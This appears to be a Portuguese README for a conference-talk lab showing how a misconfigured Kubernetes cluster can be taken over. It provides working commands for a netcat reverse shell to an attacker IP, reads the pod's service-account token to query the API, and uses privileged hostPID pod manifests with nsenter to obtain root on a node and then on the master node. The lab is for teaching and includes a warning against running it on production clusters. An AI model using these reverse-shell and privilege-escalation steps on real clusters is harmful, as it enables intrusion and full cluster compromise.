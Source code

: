 # Lab da talk Kubernetes é seguro por default ou à prova de má configuração?

Para nosso lab vamos precisar de um cluster kubernetes, pode ser minikube ou kind

**Não executar em seu cluster produtivo** 

Primeiro vamos criar nosso namespace, service account e roles:

```
kubectl create ns production

kubectl create sa web-app-sa -n production

kubectl create role web-app-role -n production --verb=get,list,create --resource=pods,pods/exec

kubectl create rolebinding binding-role-app --serviceaccount=production:web-app-sa --role=web-app-role -n production

kubectl run web-app --image=p0ssuidao/vulne-pod-lab:01 --serviceaccount=web-app-role -n production

kubectl expose pod -n production web-app --port=8080 --target-port=8080 --type=NodePort --name=web-app-role

```

kubectl get no -o wide 
kubectl get svc -n production 

Agora basta acessar no seu navegador IP do node + Node port

User foo 
Pass bar

Agora vamos abrir a porta 32000 para receber a conexão:
```
sudo nc  -l 32000
```

Executar no terminal remoto para ganhar acesso a shell:
```
nc -e /bin/bash 192.168.1.172 32000
```

Primeiro identificarmos com qual usuário estamos logados:
```
id
```
A aplicação está rodando com o usuário appuser, então vamos ver quais processos estão em execução.

```
ps aux
```

Existe um número muito baixo de processos. Ter poucos processos é o primeiro indicativo que a aplicação é em um container. Por default um container roda com o usuário root mas isso pode ser alterado.
Levantaremos informações sobre o release do S.O.
```
uname -a ; cat /etc/*-release
```

Aqui há informações como a linha da distribuição GNU/Linux e versão do Kernel. Com isso já pode se iniciar a busca por exploits para a versão de kernel e baseados na distro.
Continuando a busca, listaremos as variáveis de ambiente.

```
env
```

Vamos continuar o reconhecimento para termos certeza que estamos rodando em um container. Para isso vamos utilizar a ferramenta “amicontained”, pois com ela conseguimos uma serie de informações como:

- Container Runtime.
- Existência de namespace.
- Capabilities.
- Syscalls liberadas.

```
cd /tmp; curl -fSL "https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64" -o "amicontained" \
 && chmod a+x "amicontained" \
 && ./amicontained
```

Todo pod, deploy e rs possui uma serviceaccount e por padrão são executados com a conta default. Uma serviceaccount fornece uma identidade para processos executados em um pod e nela são atrelado as rules de permissão.
As chaves e certificados ficam em um volume montado no pod.
```
cd /var/run/secrets/kubernetes.io/serviceaccount
```

Primeiro vamos ver a versão do cluster e se conseguimos interagir com a API.
```
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```

Já que conseguimos acesso a API com esse token vamos tentar listar alguns pods, de inicio vamos tentar listar no namespace em que estamos:
```
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api --header "Authorization: Bearer $TOKEN" --insecure

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api/v1/namespaces/$NS/pods/ --header "Authorization: Bearer $TOKEN" --insecure
```
Conseguimos listar os pods e isso é muito interessante. Para facilitar um pouco as coisas vamos baixar o kubectl para interagir com o cluster.
```
cd /tmp ; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.18.0/bin/linux/amd64/kubectl ; chmod +x ./kubectl
```
Listaremos os pods com o kubectl.
```
./kubectl get pod
```

Para testar nossos acessos vamos utilizar o "kubectl auth can-i"
```
./kubectl auth can-i --list

./kubectl auth can-i create pods
```

Agora vamos tentar escalar nosso privilegio sem utilizar nenhum exploit apenas conhecimento da ferramenta.

```
cd /tmp; cat > root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: root-shell
  name: root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
EOF
./kubectl apply -f root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it root-shell -- bash

```
Conseguimos nosso acesso agora vamos ver o que conseguimos:

```
id

ps aux

docker ps

cat /etc/hostname
```

Agora vamos pegar a conta de serviço para listar os nodes:

```
systemctl status kubelet
```
Agora vamos lista-los
```
kubectl get no --kubeconfig=/etc/kubernetes/kubelet.conf
```
Vamos voltar para nosso container:
```
exit
```
Agora vamos forçar o sheduler nos agendar no nó master
- **Nome do node Master** | Substituir pelo nome do seu nó em yml abaixo.

```
cd /tmp; cat > master-root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: master-root-shell
  name: master-root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "master-root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
  nodeName: *Nome do node Master* 
  tolerations:
  - effect: NoExecute
    operator: Exists
EOF
./kubectl apply -f master-root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it master-root-shell -- bash
```

Pronto conseguimos nosso acesso ao master
```
id

ps aux

docker ps

kubectl get no

kubectl auth can-i --list
``` 
